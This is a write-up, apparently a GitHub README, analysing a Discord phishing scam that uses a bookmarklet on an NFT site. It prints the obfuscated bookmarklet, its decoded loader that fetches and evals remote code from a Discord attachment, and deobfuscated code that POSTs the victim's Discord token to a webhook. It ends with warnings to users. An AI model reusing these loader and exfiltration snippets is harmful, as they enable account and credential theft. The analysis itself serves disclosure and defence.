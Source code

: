## 📒 Introduction

**Scam Website:** https://projectgodjira.com/

I am neutral when it comes to NFTs. Recently, someone from a NFT community notfied me about this new scam involving bookmarklets, and a phishing website to steal Discord accounts and any linked NFTs.

**How the underlying scam works:**
1. The victim is DMed a link via Discord. The website in this DM is `https://projectgodjira.com/`. (The scam website)
2. When visitng this website, you are prompted to drag and drop a bookmarklet into your bookmark tray.
3. Upon clicking the bookmarklet, you are prompted to enter a "verification key" to gain access to their Discord server. 
4. As soon as that dialog is submitted, your Discord token is sent through a webhook to their Discord server.

**Quick Notes:**
- It appears they have linked a legit Twitter NFT service on their website to trick users: https://twitter.com/PGodjira.
- After using a BetterDiscord plugin to find hidden channels, there was a channel in their server named `#mod-logs`.
- The functionality of this bookmarklet is similiar to my repo: https://github.com/GalaxzyDev/MiniTokenMonster.

## 👀 First Glance
1. This is the bookmarklet hosted on the scam website at first glance:
```js
javascript:window.prompt('Enter your whitelist key:');eval(/*xmarksthespot.*/atob(/*Whitelist.*/'ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
2. The window.prompt() event is useless, lets get rid of this; as well as the comments. 

```js
javascript:eval(atob('ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
3. This is obviously code in base64, being decoded by the JavaScript `atob()` function, then ran. Lets go ahead and decode this.
```js
javascript:eval("fetch('https://cdn.discordapp.com/attachments/939341957723979776/939343633717559326/message.txt').then(response => response.text()).then(success => eval(success))")
```

4. We can now see a Discord CDN attachment, where they have hidden the rest of their "malware."
   - This code is most likely obfuscated with https://obfuscator.io/.

## 🚧 Going Deeper
1. I first used https://lelinhtinh.github.io/de4js/ to clean things up and format the obfuscated code.
2. I searched for strings such as `method`, `body`, and `fetch()` and came across the code below.
  ```js
_0x188590[_0x4444dd('0x39d', '0x344', '0x378', 'XRyX', 0x36d) + 'nt'] = _0x24e573(0xd9, '0qqU', '0xc6', 0xf5, 0x96) + _0x24e573(0x9, '*sVU', 0x105, -'0x35', 0x121) + _0x5d3af8(-0x72, -0x24b, '0qqU', -0x167, -0x10f) + ': ' + _0x15825c, fetch(_0x4444dd(0x393, 0x3d0, '0x32e', 'Azem', '0x2be') + _0x5735dc(0x15, 0xa9, 'gvqV', -'0x3b', 0x70) + _0x4444dd(0x38a, 0x46f, 0x3ec, 'Azem', '0x428') + _0x5d3af8(-0x11f, -'0x104', '*sVU', -0x2e, -'0x8f') + _0x4444dd(0x58f, 0x553, 0x491, '#T)l', 0x59c) + _0x24e573('0x1c', 'oe#2', 0x91, -0x21, -0x19) + _0x4444dd(0x3d1, 0x4a0, 0x45f, 'w2LG', 0x3f7) + _0x4444dd('0x418', 0x4df, 0x4d1, ')dR0', 0x3e7) + _0x24e573('0x6b', '0qqU', 0x83, 0x8e, -0x75) + _0x24e573(0xb8, 'CttX', 0x116, -'0x24', 0x90) + _0x5735dc(0x14b, 0xdd, 'Yqd8', '0x17c', '0xd2') + _0x1564d3(-0x167, 'Qa)H', -0xaf, -'0x140', 0x4e) + _0x24e573(-0x34, '7R#O', '0xe', 0x64, -'0x6d') + _0x4444dd('0x3c7', '0x27e', '0x347', '*AOY', 0x29e) + _0x5d3af8(-0x1cf, -0x6c, 'l2J&', -'0x105', -0x189) + _0x24e573(-0xfc, 'w2LG', -'0x17e', -'0x1ed', -0x7c) + _0x24e573('0x3a', '4]PG', 0x42, 0x79, -0x93) + _0x5735dc(0x71, 0x1ce, '*sVU', 0x1c9, '0x146') + _0x1564d3(-'0x1c3', 'w2LG', -'0x2ae', -0x31e, -'0x27e') + _0x4444dd(0x3b8, 0x44a, '0x3c9', 'Ykiw', '0x2f4') + _0x5d3af8(-0x1a8, -'0x1d', 'CttX', -'0xce', -'0x1c7') + _0x5d3af8(-0x22, -'0x1ce', 'CttX', -'0xe7', -'0x122') + _0x24e573(-'0x8e', 'Yqd8', -0x116, -0xa7, -'0x175') + _0x24e573(-0x96, 'wQ7E', -'0x170', -0x37, 0x60), {
    'method': _0x24e573(-0x12, '#T)l', 0x41, -'0x19', 0xf7),
    'headers': _0x451189,
    'body': JSON[_0x5735dc(0x1e1, -0x39, 'Yqd8', -'0x2', 0xde) + _0x5735dc(0x118, 0xb, '#qiQ', 0x1c6, '0xfd')](_0x188590)
}), alert(_0x1564d3(-0x61, 'Ykiw', -0x161, -0x97, -0x187) + _0x5735dc('0x285', 0xdf, 'PqTf', 0x286, '0x1c6') + _0x5735dc('0x17c', '0xf7', '#qwt', '0x140', 0xf2) + _0x5d3af8(-0x9, -'0x88', 'Oiv%', -'0xc1', -0x85) + _0x5735dc(0xea, '0x233', 'PYo$', 0x118, 0x1eb));
   ```
3. After a few `alert()` and `JSON.stringify()` functions later, the code above can be deobfuscated to:
 ```js
fetch("https://discord.com/api/webhooks/939322818280185906/ZkaQPqSP-vOrUdIObzR0QsU65jYkcoU6s7YEFjQphrhE_IOOHkDD2B-ip8hOFC4x9Tpa", {
  'method': 'POST',
  'headers': {'Content-Type': 'application/json'},
  'body': JSON.stringify({"username":"Logger","content":"@everyone Token: <VICTIMS DISCORD TOKEN>"})
}), alert("You have been whitelisted successfully!");
 ```

4. This makes it obvious that this is a scam, not to mention, it being a bookmarklet. 
   - The victims token will be sent over the webhook to their Discord server `#mod-logs` hidden channel.

## ⛔ Heads up!
People have fallen for this, due to this tactic not being widely seen. I hate to see people loose time and money due to this. Remember the notes below.
- If you are prompted to add a bookmarklet, proceed with caution! Bookmarklets can become way more complex than this scam.
- Do not leave sensitive information lying around in your Discord account! There are lots of grabbers nowdays, lmfao.
- Dont believe Discord DM advertisements, they are always false.
